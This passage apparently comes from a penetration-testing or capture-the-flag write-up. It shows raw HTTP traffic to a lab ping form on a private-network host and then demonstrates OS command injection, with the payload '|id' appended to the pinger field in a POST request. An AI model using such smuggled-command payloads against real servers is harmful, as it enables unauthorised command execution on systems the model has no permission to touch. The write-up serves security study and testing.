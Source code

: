 ```http
Accept-Language: en-US,en;q=0.9
Connection: close

pinger=127.0.0.1&submitt=Submit

HTTP/1.1 200 OK
Date: Fri, 04 Aug 2023 16:59:59 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 531
Connection: close
Content-Type: text/html; charset=UTF-8

<form method="post" action="">
<input type="text" placeholder="Enter an IP to ping" name="pinger">
<br>
<input type="submit" name="submitt">
</form>

<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.026 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2045ms
rtt min/avg/max/mdev = 0.013/0.021/0.026/0.007 ms
</pre>
```

The interface is a juicy target for command injection attacks.  
payload: `|id`
```http
POST /superadmin.php HTTP/1.1
Host: 192.168.192.15
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.192.15
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.192.15/superadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

pinger=127.0.0.1|id&submitt=Submit

HTTP/1.1 200 OK
Date: Fri, 04 Aug 2023 17:00:17 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 217
Connection: close
Content-Type: text/html; charset=UTF-8

<form method="post" action="">
<input type="text" placeholder="Enter an IP to ping" name="pinger">
<br>
<input type="submit" name="submitt">
</form>
```